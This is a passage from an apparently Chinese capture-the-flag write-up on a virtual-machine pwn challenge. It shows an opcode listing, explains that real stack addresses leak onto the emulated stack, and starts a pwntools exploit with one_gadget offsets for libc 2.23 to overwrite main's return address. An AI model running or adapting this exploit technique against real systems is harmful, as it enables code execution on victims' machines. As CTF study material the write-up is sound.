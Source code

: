 ```
		 pop v38
25 : *_sp = *_sp + v38
		 pop v38
26 : *_sp = *_sp - v38
		 pop v38
27 : *_sp = *_sp * v38
		 pop v38
28 : *_sp = *_sp / v38
		 pop v38
29 : *_sp = *_sp % v38
		 pop v38
30 : exit
```

这题的漏洞点就在于有真实的栈上的地址保存在模拟的栈上，而且整个操作在main函数中完成，main函数的返回地址在libc上，可以计算好偏移得到返回地址，直接将其改为one_gadget

exp：

```python
#!/usr/bin/python


from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='main'
libc_name='libc-2.23.so'

libc=ELF("./"+libc_name)
if local:
    p=process("./"+binary_name)
else:
    p=remote('',)
    e=ELF("./"+binary_name)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

one = [0x45226, 0x4527a, 0xf0364, 0xf1207]


off_ret_stack = 0xe8#返回地址与可以得到的栈地址之间的偏移
```